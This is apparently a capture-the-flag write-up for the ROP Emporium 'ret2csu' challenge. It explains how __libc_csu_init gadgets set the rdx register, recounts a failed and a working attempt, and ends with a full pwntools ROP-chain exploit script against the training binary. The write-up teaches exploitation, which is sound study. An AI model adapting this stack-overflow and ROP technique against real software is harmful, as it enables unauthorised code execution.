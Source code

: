 # Ret2csu
This challenge is a follow-up to the [callme](https://github.com/TSpeel/writeups/blob/main/pwn/ROPEmporium3_callme/README.md) challenge.
We need to call `ret2win(0xdeadbeefdeadbeef, 0xcafebabecafebabe, 0xd00df00dd00df00d)`, but don't have an easy gadget to set `rdx` (the third argument).

Instead, we have to use the ret2csu technique. 
This technique is introduced in this [paper](https://i.blackhat.com/briefings/asia/2018/asia-18-Marco-return-to-csu-a-new-method-to-bypass-the-64-bit-Linux-ASLR-wp.pdf), but this [article](https://ir0nstone.gitbook.io/notes/binexp/stack/ret2csu) summarizes it pretty well.
The idea is that when a binary is compiled dynamically, some functions are added to link libc.
This contains the function `__libc_csu_init`, which contains the following gadget:
```
00400680 4c 89 fa        MOV        RDX,R15
00400683 4c 89 f6        MOV        RSI,R14
00400686 44 89 ef        MOV        EDI,R13D
00400689 41 ff 14 dc     CALL       qword ptr [R12 + RBX*0x8]=>->frame_dummy   

0040068d 48 83 c3 01     ADD        RBX,0x1
00400691 48 39 dd        CMP        RBP,RBX
00400694 75 ea           JNZ        LAB_00400680

00400696 48 83 c4 08     ADD        RSP,0x8
0040069a 5b              POP        RBX
0040069b 5d              POP        RBP
0040069c 41 5c           POP        R12
0040069e 41 5d           POP        R13
004006a0 41 5e           POP        R14
004006a2 41 5f           POP        R15
004006a4 c3              RET
```
This can be used from `0x40069a` to pop to some registers, and can be used from the start `0x400680` to perform a `call` instruction.

## First attempt
My first idea was to use a `pop rdi` gadget to set `rdi` to `0xdeadbeefdeadbeef`, and then use the pop gadget at `0x40069a` to set `r14` to `0xcafebabecafebabe` and `r15` to `0xd00df00dd00df00d`.
Then we can use the call gadget at `0x400680` to move the contents of `r14` and `r15` into `rsi` and `rdx`, and call `ret2win()`.

The problem is that the lowest 32 bits of `r13` are moved into `edi` with `00400686 44 89 ef MOV EDI,R13D`.
I thought I could simply put `0xdeadbeef` in `r13` and only overwrite the lowest half of `rdi`, but this `mov` actually zeroes out the top 32 bits of `rdi`.
This means calling `ret2win()` in this way sets `rdi` to the wrong value. 

## Second attempt
We cannot use the `call` instruction from the csu gadget to call `ret2win()`, but we do still need to use the gadget to set `rdx`.
We can take the same approach as earlier to set `rsi` and `rdx`, but supply a function that does nothing to the `call` instruction, so that the gadget continues after calling the do-nothing function.
Then we can simply return back to our rop chain and set `rdi` with a pop gadget and return to `ret2win()` manually.

I first tried to use the function `frame_dummy()` for this, but this did not work. When I tried again with the `_init()` function, it worked!

The final exploit code is as follows:
```
#!/usr/bin/env python3

from pwn import *
import subprocess


def start(argv=[], *a, **kw):
    if args.GDB:  # Set GDBscript below
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE:  # ('server', 'port')
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:  # Run locally
        return process([exe] + argv, *a, **kw)


"""
notes:

"""

gdbscript = ""

breakpoints = [
    #    'breakrva 0xoffset',
    #"continue"
]

for s in breakpoints:
    gdbscript += s + "\n"


exe = "./ret2csu"
elf = context.binary = ELF(exe, checksec=False)
# context.log_level = 'info' # use DEBUG in args for debugging. LOG_LEVEL=warn/info/error for anything else

"""
if args.REMOTE:
    libc = ELF('./libc.so.6', checksec=False)
else:
    libc = ELF('/usr/lib/x86_64-linux-gnu/libc.so.6', checksec=False)
"""

# ===========================================================
#                    EXPLOIT STARTS HERE
# ===========================================================
io = start()

"""
00400680 4c 89 fa        MOV        RDX,R15
00400683 4c 89 f6        MOV        RSI,R14
00400686 44 89 ef        MOV        EDI,R13D
00400689 41 ff 14 dc     CALL       qword ptr [R12 + RBX*0x8]=>->frame_dummy   

0040068d 48 83 c3 01     ADD        RBX,0x1
00400691 48 39 dd        CMP        RBP,RBX
00400694 75 ea           JNZ        LAB_00400680

00400696 48 83 c4 08     ADD        RSP,0x8
0040069a 5b              POP        RBX
0040069b 5d              POP        RBP
0040069c 41 5c           POP        R12
0040069e 41 5d           POP        R13
004006a0 41 5e           POP        R14
004006a2 41 5f           POP        R15
004006a4 c3              RET
"""
csu_callgadget = 0x400680
csu_popgadget  = 0x40069a
pop_rdi        = 0x4006a3
ret2win_plt    = 0x400510

arg_one   = 0xdeadbeefdeadbeef # must go in rdi
arg_two   = 0xcafebabecafebabe # must go in rsi
arg_three = 0xd00df00dd00df00d # must go in rdx

#frame_dummy does not work
init_got = 0x600e38


payload = b"A" * 40

payload += p64(csu_popgadget)
payload += p64(0)         # rbx (0 for call)
payload += p64(1)         # rbp (for comparison CMP RBP,RBX)
payload += p64(init_got)  # call do nothing
payload += p64(0)         # r13 (edi, garbage)
payload += p64(arg_two)   # r14 (rsi)
payload += p64(arg_three) # r15 (rdx)


payload += p64(csu_callgadget)
# supply some garbage values
payload += p64(0) # add
payload += p64(0) # rbx
payload += p64(0) # rbp
payload += p64(0) # r12
payload += p64(0) # r13
payload += p64(0) # r14
payload += p64(0) # r15

# set rdi and call ret2win
payload += p64(pop_rdi)
payload += p64(arg_one)
payload += p64(ret2win_plt)

io.sendlineafter(b">", payload)
io.interactive()
```

